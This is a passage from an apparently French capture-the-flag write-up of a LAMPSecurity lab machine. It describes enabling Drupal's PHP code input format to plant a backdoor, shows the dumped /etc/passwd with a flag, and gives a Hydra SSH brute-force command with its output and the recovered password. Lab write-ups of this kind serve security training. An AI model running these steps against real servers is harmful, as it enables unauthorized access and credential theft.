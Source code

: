 J'ai pas eu le courage d'aller jusqu'à la fin des utilisateurs. L'important est de disposer du compte admin *Drupal*.  

Finalement le plus dur dans ce challenge aura été de trouver comment placer du \*biiip\* code PHP dans cette \*biiip\* de *Drupal* de \*biiip\* (\*biiip\* !).  

Donc avis à la populace, il faut d'abord s'assurer que le module *"Input formats"* est bien activé dans les modules (*modules > Filter*).  

Dans les *Input formats* il faut alors s'assurer que *PHP code* est présent et que son option *PHP evaluator* est cochée.  

Et enfin lors de l'édition d'un contenu (article, etc.) il faut switcher le *Input format* sur *PHP code*.  

Une backdoor classique permet alors d'accéder au système de fichier.  

```plain
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
--- snip ---
sabayon:x:86:86:Sabayon user:/home/sabayon:/sbin/nologin
jharraway:x:500:504::/home/jharraway:/bin/bash
spinkton:x:501:505::/home/spinkton:/bin/bash
sholden:x:502:506::/home/sholden:/bin/bash
bdio:x:503:507::/home/bdio:/bin/bash
jalderman:x:504:508::/home/jalderman:/bin/bash
gconnor:x:505:509::/home/gconnor:/bin/bash
sswiney:x:506:510::/home/sswiney:/bin/bash
dhart:x:507:511::/home/dhart:/bin/bash
gprune:x:508:512::/home/gprune:/bin/bash
hplink:x:509:513::/home/hplink:/bin/bash
jgrimes:x:510:514::/home/jgrimes:/bin/bash
shunter:x:511:515::/home/shunter:/bin/bash
jingersol:x:512:516::/home/jingersol:/bin/bash
mswanson:x:513:517::/home/mswanson:/bin/bash
jstone:x:514:518::/home/jstone:/bin/bash
jgoldman:x:515:519::/home/jgoldman:/bin/bash
tmaloney:x:516:520::/home/tmaloney:/bin/bash
xbruce:x:517:521::/home/xbruce:/bin/bash
sloreman:x:518:522:#flag#5b650c18929383074fea8870d857dd2e:/home/sloreman:/bin/bash
```

Vici
----

Je réutilise les identifiants *Drupal* pour tenter de trouver un compte Unix :  

```plain
$ ./hydra -L users.txt -P passwords.txt ssh://192.168.1.60
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-18 18:16:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 38 login tries (l:19/p:2), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.60   login: spinkton   password: football123
[STATUS] attack finished for 192.168.1.60 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-18 18:17:17

$ ssh spinkton@192.168.1.60
Welcome to LAMPSecurity Research SSH access!
#flag#5e937c51b852e1ee90d42ddb5ccb8997

```